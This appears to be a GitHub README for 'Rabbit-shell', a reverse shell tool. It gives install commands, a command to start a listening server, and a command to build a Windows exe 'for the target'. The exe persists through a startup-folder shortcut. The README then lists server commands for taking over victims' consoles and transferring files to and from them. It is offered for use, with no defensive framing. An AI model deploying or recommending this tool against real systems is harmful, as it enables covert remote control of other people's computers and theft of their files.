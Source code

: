 # Rabbit-shell

###### Rabbit shell reverse shell tool.



##  Installation.



### By pip.

```bash
pip install rabbit_shell
```
install using pypi.

or
###  By clone.

```bash
git clone https://github.com/greedalbadi/rabbit-shell.git
cd rabbit-shell
pip install .
```
install using git clone.

# Usage.
```bash
rsb --help
```
print available arguments with a tiny explain.

## Run server and start listening.

```bash
rsb --server -a 192.168.0.111 -p 9999
```

> - --server is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to

###### There'll be a seperate socket for file transfering the port is whaever enter - 1, If main server port 9999

###### file transfer port well be 9998, the files are going to trans to wherever your location is.



## Generate exe for the target.

```bash
rsb --client -a 192.168.0.111 -p 9999
```

> - --client is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to


###### This will generate an exe inside a dist directory you may delete build folder, when the exe runs It'll create

###### a shortcut in startup folder if the system is windows.



## Commands to use from server side.



### To request server information.

```bash
>: server
```

###### Server host and port also the tool version and tool name.

### To list all clients.

```bash
>: list
```

###### List online and offline clients use, device address, and more.

### To set and controll a client console by client use number from the list.

```
>: set 0
```

###### To controle client console you can git client set number from using the command list

###### and use the command >: set (client use number).

### Quit client session.

```bash
>: quit
```

###### Quit client console without losing connection with client, used to things like changing to another set or gain info.

### Send file to client.

```bash
>: file:filename
```

###### 

### Request file from client.

```bash
reqfile:filename
```













## About.

by [@greedalbadi](https://www.instagram.com/greedalbadi/)

This tool uses MIT license.

made with depression <3
